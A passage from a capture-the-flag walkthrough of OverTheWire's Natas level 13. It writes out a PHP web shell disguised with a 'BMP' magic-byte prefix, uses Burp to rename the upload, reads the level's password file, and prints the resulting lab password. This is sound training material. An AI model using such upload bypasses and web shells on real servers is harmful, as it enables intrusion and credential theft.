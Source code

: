 Okay, I'm sure we can exploit this! Let's go ahead and edit __shell.php__ that we used in level 12.This time it has to be pulling the password from Natas14. Also we have to add BMP to the start of the file - this will allow exif_imagetype to read the file as a [Bitmap File Image](https://en.wikipedia.org/wiki/BMP_file_format), and will bypass the upload check, allowing our shell.

```php
BMP<?
$output = shell_exec('cat /etc/natas_webpass/natas14');
echo "<pre>$output</pre>";
?>
```

We will be doing a repeat of 12, so click __Browse__ and look for __shell.php__, open it, fire up Burp, start up the proxy, and __Upload__ the file!

In Burp's Intercept we should see something along the following lines:

```js
Content-Disposition: form-data; name="filename"

3hwxwqemk3.jpg
-----------------------------1625648362953610391147035725
Content-Disposition: form-data; name="uploadedfile"; filename="shell.php"
Content-Type: application/x-php

<?
$output = shell_exec('cat /etc/natas_webpass/natas14');
echo "<pre>$output</pre>";
?>

-----------------------------1625648362953610391147035725--
```

Let's change the name __3hwxwqemk3.jpg__ to __shell.php__, and forward the packet. You should now see something along the lines of "__The file upload/w0yzhafetj.php has been uploaded__". 

<a href="/images/natas13-2.PNG"><img src="/images/natas13-2.PNG"></a>

Let's go ahead and click the __upload/4mi1msvukh.php__ link. 

If done correctly we should get the password `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`.

Congrats! It was simple enough! I suggest you go read more about [Unrestricted File Uploads](https://www.owasp.org/index.php/Unrestricted_File_Upload) from __OWASP__ as they are an amazing source to learning Web Hacking! We're done here... so moving on to level 14!

### Level 14:
<a href="/images/natas14.PNG"><img src="/images/natas14.PNG"></a>
